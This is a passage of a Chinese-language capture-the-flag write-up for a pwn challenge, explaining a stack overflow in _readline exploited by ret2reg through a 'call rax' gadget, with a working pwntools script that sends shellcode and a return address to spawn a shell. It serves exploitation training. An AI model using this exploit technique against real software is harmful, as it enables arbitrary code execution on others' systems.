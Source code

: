 IDA 打开，发现程序中有`call rax`指令：

![image-20250126181803008](BestiCTF S1 Week21.assets/image-20250126181803008.png)

在 _readline 函数找到溢出点，只能覆盖返回地址：

![image-20250126181905595](BestiCTF S1 Week21.assets/image-20250126181905595.png)

同时注意到 strncpy 函数的返回值同时也是 _readline 函数的返回值，strncpy 函数返回值为写入地址，即此事 rax 寄存器指向的是 a1 的地址，不难想到是 ret2reg。即在 buf 中写入 shellcode，复制到 a1 后，我们通过跳转到 call rax，使得 IP 指针跳转到 a1，进而执行 shellcode。

#### EXP

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
context.terminal = ['cmd.exe', '/c', 'wt.exe', '-w', '0', '--title', 'gdb', 'bash', '-c']

# p = remote("127.0.0.1", 9999)
p = process("./attachment")
elf = ELF("./attachment")
# gdb.attach(p, "b *0x40122F")

target_address = 0x401302

# 64位
context(arch="amd64",os="linux")
stack_len = 0x100 + 0x8

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(stack_len , b"\xff") + p64(target_address)

input()

p.send(payload)

p.interactive()
```

#### 总结

- 栈溢出
	- 中级ROP
		- ret2reg



### [寄存有风险2](https://www.nssctf.cn/team/problem/6460)

#### 题目描述
